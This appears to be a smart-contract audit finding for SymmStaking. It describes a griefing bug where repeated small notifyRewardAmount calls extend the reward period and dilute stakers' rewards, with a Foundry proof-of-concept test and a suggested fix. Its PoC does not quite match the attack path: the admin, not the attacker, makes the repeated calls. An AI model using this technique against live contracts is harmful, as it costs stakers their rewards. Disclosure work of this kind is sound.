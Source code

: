 Quaint Mocha Seahorse

Medium

# An attacker will dilute rewards for legitimate stakers

### Summary

The unconditional reward period extension in ```SymmStaking.sol``` will cause a dilution of rewards for legitimate stakers as an attacker will repeatedly call ```notifyRewardAmount``` with minimal amounts to extend the reward period.



### Root Cause

In [SymmStaking.sol](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L366-L379)(function``` _addRewardsForToken```), the periodFinish is unconditionally set to block.timestamp + state.duration every time ```notifyRewardAmount``` is called, even during an active reward period, allowing indefinite extensions.



### Internal Pre-conditions

1. The admin needs to call configureRewardToken to set a reward token (e.g., usdtToken) to be whitelisted.
2. Any user (or attacker) needs to transfer a minimal amount to set their reward token balance to be at least 1 wei.
3. A legitimate user needs to call deposit to set the totalSupply to be at least 1 wei.


### External Pre-conditions

1. No external protocol changes are required for this attack path.

### Attack Path

1. The attacker calls notifyRewardAmount with a minimal reward amount (e.g., 1 wei) for a whitelisted token.
2. The attacker repeats the call to notifyRewardAmount multiple times, each call extending periodFinish by the full reward duration (1 week).
3. The attacker continues this process to push the reward period far into the future, diluting the reward rate over time.

### Impact

The legitimate stakers suffer an approximate loss of their expected rewards due to dilution over an extended period. The attacker loses negligible amounts (e.g., 1 wei per call) and doesn’t gain anything directly (griefing).

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import {SymmStaking} from "../../contracts/staking/SymmStaking.sol";
import {MockERC20} from "../../contracts/mock/MockERC20.sol";

contract SymmStakingTest is Test {
    SymmStaking public symmStaking;
    MockERC20 public stakingToken;
    MockERC20 public usdtToken;
    MockERC20 public usdcToken;

    address public admin;
    address public user1;
    address public user2;
    address public attacker;
    uint256 constant INITIAL_BALANCE = 1000e18;
    uint256 constant ONE_WEEK = 1 weeks;

    function setUp() public {
        // Setup accounts
        admin = makeAddr("admin");
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
        attacker = makeAddr("attacker");

        // Deploy tokens
        vm.startPrank(admin);
        stakingToken = new MockERC20("SYMM", "SYMM");
        usdtToken = new MockERC20("USDT", "USDT");
        usdcToken = new MockERC20("USDC", "USDC");

        // Deploy staking contract
        symmStaking = new SymmStaking();
        symmStaking.initialize(admin, address(stakingToken));

        // Mint initial balances
        stakingToken.transfer(admin, INITIAL_BALANCE);
        stakingToken.transfer(attacker, INITIAL_BALANCE);
        vm.stopPrank();
    }

    function test_RewardPeriodExtensionAbuse() public {
        // Define test amounts
        uint256 stakeAmount = 1000e18; // User will stake 1000 SYMM tokens
        uint256 initialRewardAmount = 100e18; // Initial reward pool of 100 USDT
        uint256 abuseRewardAmount = 1e18; // Small reward amount (1 USDT) used for abuse attempts

        // Admin enables USDT as a valid reward token
        vm.startPrank(admin);
        symmStaking.configureRewardToken(address(usdtToken), true);
        vm.stopPrank();

        // attacker stakes 1000 SYMM tokens
        vm.startPrank(attacker);
        stakingToken.approve(address(symmStaking), stakeAmount);
        symmStaking.deposit(stakeAmount, attacker);
        vm.stopPrank();

        // Admin sets up initial reward distribution of 100 USDT
        vm.startPrank(admin);
        usdtToken.approve(address(symmStaking), initialRewardAmount);
        address[] memory tokens = new address[](1);
        tokens[0] = address(usdtToken);
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = initialRewardAmount;
        symmStaking.notifyRewardAmount(tokens, amounts);

        // Store initial reward parameters for later comparison
        (uint256 duration, uint256 periodFinish, uint256 rate,,) = symmStaking.rewardState(address(usdtToken));
        uint256 initialPeriodFinish = periodFinish;
        uint256 initialRate = rate;

        // Log initial values for debugging
        console.log("Initial period finish:", periodFinish);
        console.log("Initial rate:", rate);

        // Move time forward to middle of reward period
        vm.warp(block.timestamp + duration / 2);

        // Calculate and log rewards at halfway point
        uint256 halfwayRewardsPerToken = symmStaking.rewardPerToken(address(usdtToken));
        console.log("Rewards per token at halfway:", halfwayRewardsPerToken);

        // Attempt reward manipulation by adding small amounts repeatedly
        usdtToken.approve(address(symmStaking), abuseRewardAmount * 5);
        for (uint256 i = 0; i < 5; i++) {
            amounts[0] = abuseRewardAmount;
            symmStaking.notifyRewardAmount(tokens, amounts);

            // Track changes in reward parameters after each small addition
            (, uint256 newPeriodFinish, uint256 newRate,,) = symmStaking.rewardState(address(usdtToken));
            console.log("Abuse iteration", i + 1);
            console.log("New period finish:", newPeriodFinish);
            console.log("New rate:", newRate);

            // Advance time between attempts
            vm.warp(block.timestamp + 1 hours);
        }
        vm.stopPrank();

        // Get final reward state after manipulation attempts
        (, uint256 finalPeriodFinish, uint256 finalRate,,) = symmStaking.rewardState(address(usdtToken));

        // Verify reward period was extended but within reasonable bounds
        assertGt(finalPeriodFinish, initialPeriodFinish, "Period finish should be extended");
        assertTrue(finalRate != initialRate, "Rate should be different after abuse");

        // Check final reward calculations
        uint256 finalRewardsPerToken = symmStaking.rewardPerToken(address(usdtToken));
        console.log("Final rewards per token:", finalRewardsPerToken);

        // Calculate total rewards earned by attacker
        uint256 attackerEarned = symmStaking.earned(attacker, address(usdtToken));
        console.log("Attacker earned amount:", attackerEarned);
    }
}


```

### Mitigation

Implement a fixed reward period where periodFinish remains unchanged if the current period is active, adjusting the reward rate instead. Alternatively, add a minimum reward threshold or cooldown for notifyRewardAmount calls.


